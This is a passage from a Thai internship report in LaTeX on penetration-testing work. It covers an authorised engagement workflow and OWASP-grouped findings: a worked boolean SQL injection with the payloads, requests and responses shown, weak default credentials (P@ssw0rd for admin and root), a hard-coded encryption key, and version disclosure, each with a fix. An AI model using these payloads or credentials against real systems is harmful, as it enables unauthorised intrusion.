    
\includegraphics[width=0.5\columnwidth]{svm.png}
    \caption{การแบ่งแยกกลุ่มข้อมูลด้วย Hyper-plane ของ SVM}
    \label{Fig:svm}
\end{figure}

เพื่อที่จะแยกข้อมูลทั้งสองกลุ่มด้วย Optimal Hyper-plane นั้น $w \times x - b = 0$ จะทำหน้าที่แบ่งข้อมูลสองกลุ่มออกจากกันโดยมี Support Vector ทำหน้าที่เป็นกันชนระหว่างข้อมูลที่ใกล้กันที่สุดระหว่างกลุ่มข้อมูลทั้งสอง ซึ่ง SVM นั้นจะสร้างพื้นที่การตัดสินใจขึ้นมา หรือก็คือพื้นระหว่าง $w \times x - b = 1$ และ $w \times x - b = -1$ โดยจะปรับให้ระยะห่างหรือความกว้างระหว่างทั้งสองนั้นมีค่าสูงสุด โดยระยะห่างนั้นมีค่าเท่ากับ $\frac{2}{\|\vec {w}\|}$ อย่างไรก็ดีหลาย ๆ ครั้งข้อมูลไม่สามารถแบ่งแยกได้ด้วยเส้นตรง และจำเป็นต้องใช้การแบ่งข้อมูลแบบ Non-linear ซึ่งสำหรับ SVM แล้วนั้นสามารถใช้ Kernel เข้ามาช่วยในการเปลี่ยนมิติของข้อมูลเพื่อให้สามารถแบ่งแยกข้อมูลทั้งสองกลุ่มได้ด้วย Linear Hyper-plan ตามที่แสดงในภาพ~\ref{Fig:kernel}

\begin{figure}[!h]
    \centering
    
\includegraphics[width=0.95\columnwidth]{kernel.png}
    \caption{คุณสมบัติการเปลี่ยนมิติของข้อมูลด้วย Kernel}
    \label{Fig:kernel}
\end{figure}


    \chapter{สรุปผลการปฏิบัติงาน}
\label{chapter:experiment}

จากการสหกิจศึกษาเป็นเวลา 6 เดือน ตั้งแต่วันที่ \StartDWork ถึง \EndDWork ณ \Company

ในบทนี้ผู้เขียนได้สรุปกระบวนการดำเนินงานตั้งแต่เริ่มต้นโปรเจคไปจนจบโปรเจคที่ผู้เขียนได้เข้าไปมีส่วนร่วมในการทำงาน

นอกจากนี้ผู้เขียนได้สรุปรวบรวมและคัดสรรค์ช่องโหว่ที่พบเจอจากการค้นหาช่องโหว่ให้ลูกค้าของบริษัท และนำมาจัดกลุ่มตามหมวดหมู่ของ OWASP Top 10 ได้ดังนี้ โดยจะขอปิดชื่อบริษัทของลูกค้า และข้อมูลละเอียดอ่อนที่เป็นความลับของลูกค้า

\section{ขั้นตอนการดำเนินงานการเจาะระบบ}

หัวข้อนี้จะอธิบายถึงขั้นตอนการทำงานของ Delivery Team ซึ่งเป็นทีมที่ผู้เขียนเข้าไปร่วมฝึกงานตั้งแต่เริ่มต้นการทดสอบเจาะระบบไปจนจบโปรเจคโดยจะมี 3 ขั้นตอนหลัก ดังนี้

\subsection{Planning Phase}

เป็นขั้นตอนการวางแผนก่อนที่จะเข้าไปทดสอบเจาะระบบของลูกค้า

\begin{enumerate}
	\item \textbf{Understanding a Project Proposal} ทำความเข้าใจความต้องการของลูกค้า และฝ่ายขายได้เสนอบริการอะไรให้ลูกค้าไปบ้าง ในบางครั้งเอกสารนี้ยังไม่ได้ลงรายละเอียดด้าน Technical อะไรมาก ซึ่งจะได้รายละเอียดเพิ่มติมเมื่อไปพบปะพูดคุยกับลูกค้าในขึ้นตอน Kick off
	\item \textbf{Plan and Kick off with a Customer} มีจุดประสงค์เพื่อทำความเข้าใจภาพรวมของระบบที่ลูกค้าต้องการให้ทดสอบเจาะระบบ โดยจะขอให้ลูกค้าสร้างบัญชีผู้ใช้ที่จำเป็น ปลด Firewall Rule (ถ้ามี) Walkthrough ระบบของลูกค้าในทุก ๆ Feature หากเกิดข้อผิดพลาดในระบบ หรือระบบใช้งานไม่ได้ จะได้แจ้งให้ลูกค้าแก้ไข
	\item \textbf{Sign a Permission  to Attack Document} เป็นการให้ลูกค้าเซ็นสัญญายินยอมให้เจาะระบบ โดยจะมีระยะเวลา และ Scope ที่อนุญาติให้โจมตี เช่น IP Address, Domain Name เป็นต้น
\end{enumerate}

\subsection{Execution Phase}

เป็นขั้นตอนการลงมือเจาะระบบของลูกค้าและรายงานช่องโหว่ที่พอเจอ

\begin{enumerate}
	\item \textbf{Penetration Testing} เริ่มการทดสอบเจาะระบบ โดยที่จะไล่ไปทีละ Feature ของระบบ และตรวจสอบ Input ของ Feature นั้น ๆ ว่ามีช่องโหว่อะไรบ้าง เช่น ถ้าทดสอบ Feature อัพโหลดเอกสาร ก็จะตรวจสอบว่าสามารถอัพโหลดไฟล์ที่นอกเหลือที่กำหนดไว้ได้หรือไม่  สามารถอัพโหลดไปทับไพล์ของคนอื่นได้หรือไม่ เป็นต้น
	\item \textbf{Report a Progress} หลังจากที่เจอช่องโหว่ก็จะนำช่องโหว่ที่พบเจอมาเขียนใส่ใน Report โดยที่จะต้องประเมินความเสี่ยงของช่องโหว่นั้น ๆ ดังรูปที่ \ref{Fig:riskcal} โดยระดับของความเสี่ยงจะขึ้นอยู่กับความยากง่ายในการเจาะของช่องโหว่นั้น ๆ (Likeihood) และความรุนแรงที่เกิดขึ้นหากเจาะช่องโหว่นั้นสำเร็จ (Impact) ส่วนมาก Progress Report จะส่งให้ลูกค้าทุก ๆ  วันหลังจากสิ้นวันทำงาน
	
\end{enumerate}

\begin{figure}[h]
	\centering
	
\includegraphics[width=0.8\columnwidth]{riskcal.png}
	\caption{ตารางการประเมินช่องโหว่}
	\label{Fig:riskcal}
\end{figure}

\subsection{Closing Phase}

เป็นขั้นตอนการจบโปรเจค

\begin{enumerate}
	\item \textbf{Send Final Report} ส่ง Report สุดท้ายที่รวบรวมช่องโหว่ที่พบเจอให้กับลูกค้า รวมถึง Executive Report
	\item \textbf{Retest} หลังที่ลูกค้าได้แก้ไขช่องโหว่แล้ว ลูกค้าก็จะติดต่อกลับมายังบริษัท เพื่อให้กลับไป Retest เพื่อให้มั่นใจว่าช่องโหว่นั้นได้ถูกแก้ไขไปแล้วอย่างแท้จริง
\end{enumerate}

\section{สรุปช่องโหว่ตามหวดหมู่ของ OWASP Top 10}

\subsection{Injection}

ในหัวข้อนี้จะพูดถึงการที่ผู้ประสงค์ร้ายสามารถแทรกคำสั่ง (Code) เข้าไปในระบบเพื่อให้ระบบทำงานตามที่ผู้ประสงค์ร้ายต้องการ พร้อมทั้งบอกถึงวิธีแก้ปัญหา

\subsubsection{SQL Injection}

เนื่องจากตัวเว็บแอปพลิเคชันรับ Input จากผู้ใช้ไปใช้งานโดยที่ไม่ได้ผ่านการตรวจสอบข้อมูล หรือทำความสะอาดข้อมูลก่อน ทำให้สามารถใส่คำสั่ง SQL เข้าไปทำงานได้ ความเสียหายจาก SQL Injection สามารถทำให้ผู้ประสงค์ร้ายเข้าถึงข้อมูลทุก ๆ อย่างที่อยู่ในฐานข้อมูลได้ด้วยสิทธิ์ของ Web Server หรือตามที่ผู้พัฒนาระบบกำหนดไว้ โดยระบบนี้เป็นระบบสำหรับค้นหาและเรียกดูข้อมูลย้อนหลังการทำธุรกรรม แสดงให้เห็นดังรูปที่ \ref{Fig:sqlisearchpage.png}

\begin{figure}[h]
	\centering
	
\includegraphics[width=0.8\columnwidth]{sqlisearchpage.png}
	\caption{หน้าค้นหาข้อมูล}
	\label{Fig:sqlisearchpage.png}
\end{figure}

เมื่อทดลองเรียกข้อมูลย้อนหลังตัว Browser จะส่ง Request ไปดังนี้

\begin{lstlisting}[numbers=none] 
POST [REDACTED]/dashboardV4.htm HTTP/1.1
[...]

cmd=getDashBoardTransaction&transactionType=OUW&searchBy=SENDING_NAME &searchValue=YYYY&currency=&country=&status=&startDate=2019-05-02&endDate=2019-05-13
\end{lstlisting}

ผู้ทดสอบใส่คำสั่ง SQL ดังต่อไปนี้ลงไปในค่าของตัวแปร searchBy

\begin{lstlisting}[numbers=none] 
SENDING_NAME='YYYY' and '1'='1' and SENDING_NAME
\end{lstlisting}

จะได้ Request ดังต่อไปนี้

\begin{lstlisting}[numbers=none] 
POST [REDACTED]/dashboardV4.htm HTTP/1.1
[...]

cmd=getDashBoardTransaction&transactionType=OUW&searchBy=SENDING\_NAME='YYYY' and '1'='1' and SENDING\_NAME&searchValue=YYYY&currency=&country=&status=&startDate=2019-05-02&endDate=2019-05-13
\end{lstlisting}

เนื่องจากคำสิ่งที่เรา Inject เข้าไปนั้น จะมีค่าเป็น True เสมอ ซึ่งได้ Response ดังนี้ ซึ่งเป็น Response ที่มีข้อมูล

\begin{lstlisting}[numbers=none] 
HTTP/1.1 200 OK
Date: Mon, 13 May 2019 03:01:42 GMT
Content-Length: 3984
[...]

{"iTotalRecords":12,"iTotalDisplayRecords":12,"data":[[1,"1905101637LUZFN81","IRM","YYYY","George Adam1","567899000000","George Adam1","SGD","99.02","THB","37.58","31.3200000","FA","318013"]]
[...]
\end{lstlisting}

จากนั้นทดสอบใส่คำสั่ง SQL ดังต่อไปนี้ลงไปในค่าของตัวแปร searchBy แต่ครั้งนี้คำสั่งที่ใส่ไปจะมีค่าเป็น False

\begin{lstlisting}[numbers=none] 
SENDING_NAME='YYYY' and '1'='0' and SENDING_NAME
\end{lstlisting}

จะได้ Request ดังต่อไปนี้

\begin{lstlisting}[numbers=none] 
POST [REDACTED]/dashboardV4.htm HTTP/1.1
[...]

cmd=getDashBoardTransaction&transactionType=OUW&searchBy=SENDING\_NAME='YYYY' and '1'='0' and SENDING\_NAME&searchValue=YYYY&currency=&country=&status=&startDate=2019-05-02&endDate=2019-05-13
\end{lstlisting}

Response ที่ได้กลับมาไม่มีข้อมูลอะไรอยู่เลย

\begin{lstlisting}[numbers=none] 
HTTP/1.1 200 OK
Date: Mon, 13 May 2019 03:01:42 GMT
Content-Length: 54
[...]

{"iTotalRecords":0,"iTotalDisplayRecords":0,"data":[]}
\end{lstlisting}

ดังนั้นจึงยืนยันได้ว่าคำสั่ง SQL ที่ใส่เข้าไปถูกตัวเว็บแอปพลิเคชันนำไปทำงาน ซึ่งตัวแปรที่ทำให้เกิดช่องโหว่นี้คือตัวแปร searchBy

วิธีการแก้ไขคือควรใช้ SQL Prepare Statements แทนการเชื่อม String เนื่องจากส่วนข้อมูล Input กับ คำสั่งจะไม่ถูกนำมาต่อกันโดยตรง ถ้าไม่สามารถใช้ SQL Prepare Statement ได้ เนื่องจากข้อจำกับของภาษา หรือ Framework ก็ไม่ควรนำ Input จาก User เข้าไปใช้กับ Database โดยตรง

ซึ่งหมายความว่าตัวอักขระพิเศษเช่น Single Quote (') หรือ Double Quote (") จะต้องถูก Escape ก่อน (แปลงจาก ' เป็น \textbackslash') เพื่อให้ Database มองว่าเป็นข้อมูล ไม่ใช่คำสั่ง

นอกจากนี้ยังควรกรองข้อมูล Input ด้วยวิธีแบบ Whitelist เช่นเลข ID สินค้าควรเช็คที่ฝั่ง Server ว่าประกอบไปด้วยตัวเลขเท่านั้น เป็นต้น และควรกรอกข้อมูลกับทุก ๆ Input ที่ผู้ใช้สามารถใส่เข้ามาได้ เช่น Cookie, Form ที่ถูกซ่อนอยู่ และ Request Header ต่าง ๆ เป็นต้น

แต่ทว่าในกรณีนี้ SQL Prepare Statement ไม่สามารถใช้ได้กับข้อมูลที่เป็น Metadata ของ Database เช่น ชื่อ Table, Column เป็นต้น ดังนั้นควรใช้กระบวนการกรองข้อมูลแบบ Whitelist กล่าวคือมี List ของชื่อ Column ที่ใช้ได้ หากข้อมูลที่ได้รับมาอยู่นอกเหนือจาก List ที่มีให้ปฏิเสธข้อมูลนี้ทันที

\subsection{Broken Authentication}

ในหัวข้อนี้เกี่ยวกับการตั้งรหัสผ่านที่ไม่ปลอดภัย ทำให้ง่ายต่อการคาดเดาจากผู้ประสงค์ร้าย

\subsubsection{Administrative Interfaces with Weak Password}

ผู้ทดสอบระบบสามารถเข้าถึงหน้าเว็บที่ผู้ดูแลระบบ (รูปที่  \ref{Fig:rapid4login.png}) ใช้ควบคุมระบบทั้งหมดได้โดยใช้ Password ที่ไม่ปลอดภัย

 \begin{figure}[h]
	\centering
	
\includegraphics[width=0.6\columnwidth]{rapid4login.png}
	\caption{หน้า Login ของผู้ดูแลระบบ}
	\label{Fig:rapid4login.png}
\end{figure}

ซึ่งผู้ทดสอบระบบสามารถเข้าระบบได้ด้วย Username: admin Password:P@ssw0rd ซึ่งถือว่าเป็นรหัสผ่านเริ่มต้นที่ไม่ปลอดภัย วิธีการแก้ไขคือควรเปลี่ยนรหัสผ่านให้ปลอดภัยมากขึ้น

\subsubsection{Access System with Weak Password Protection}

ผู้ทดสอบสามารถ Login เข้าสู้ Server ได้ด้วยสิทธ์ Root โดยใช้ "P@ssw0rd" เป็นรหัสผ่าน ผลลัพธ์ดังรูปที่ \ref{Fig:rootaccess.png}

 \begin{figure}[h]
	\centering
	
\includegraphics[width=0.6\columnwidth]{rootaccess.png}
	\caption{สามารถ Login เข้าเครื่อง Server ด้วยสิทธ์ root}
	\label{Fig:rootaccess.png}
\end{figure}

\subsection{Sensitive Data Exposure}

ในหัวข้อนี้ผู้เขียนจะเล่าถึงเหตุการณ์ที่ไปพบเจอข้อมูลที่สำคัญ และสามารถเข้าถึงได้จากภายนอกโดยที่ไม่ได้มีการป้องกันใด ๆ
 
 
\subsubsection{Use of hard-coded cryptographic key in WebSocket communication}

การใช้กุญแจที่เข้ารหัสที่ฝังอยู่ในตัวโปรแกรม ทำให้เพิ่มโอกาสให้ผู้ประสงค์ร้ายถอดรหัสข้อมูลของใครก็ได้

ผู้เขียนค้นพบการใช้งานของกุญแจที่ใช้เข้ารหัสการสื่อสารด้วยโปรโตคอล WebSocket ฝังอยู่ในไฟล์ JavaScript ที่สามารถเข้าถึงได้โดยที่ไม่ต้องยืนยันตัวตน ดังรูปที่ \ref{Fig:aeskeyleaks.png}

 \begin{figure}[h]
	\centering
	
\includegraphics[width=0.8\columnwidth]{aeskeyleaks.png}
	\caption{กุญแจที่ใช้เข้ารหัสถอดรหัสถูกพบเจอในไฟล์ JavaScript}
	\label{Fig:aeskeyleaks.png}
\end{figure}
 
 ไม่ควรใช้การเข้ารหัสด้วยกุญแจที่ถูกฝังอยู่ในไฟล์ JavaScript เพราะว่าใคร ๆ ก็สามารถเข้าถึงได้ ในกรณีนี้ควรไปใช้ WebSocket Secure (WSS) จะดีกว่า
 
 \subsubsection{Application's Components Information Disclosure}
 
 ตรวจพบเจอเวอร์ชั่นของเทคโนโลยีที่เว็บแอปพลิเคชันใช้งานส่งมาใน HTTP Response Headers ซึ่งผู้ประสงค์ร้ายสามารถนำข้อมูลส่วนนี้ค้นหาช่องโหว่ที่อยู่ใน Internet แล้วนำมาโจมตีช่องโหว่ได้ หรือแม้แต่หน้าตั้งต้นของ Web Server ก็สามารถระบุเวอร์ชันได้เช่นกัน
 
 ตัวอย่าง HTTP Response ที่แสดงถึงเลขเวอร์ชั่นของโปรแกรมที่ใช้งาน
 
\begin{lstlisting}[numbers=none] 
HTTP/1.1 200 OK
X-Powered-By: JSP/2.3
Server: JBoss-EAP/7
[...]
\end{lstlisting}
 
ตัวอย่างหน้าตั้งต้นของ JBoss Web Server ดังรูปที่ \ref{Fig:jbosshome.png} ซึ่งวิธีการแก้คือต้องตั้งค่า Web Server ให้ปิดการแสดงเลข Version และลบหน้า Default Page ของ JBoss

 \begin{figure}[h]
	\centering
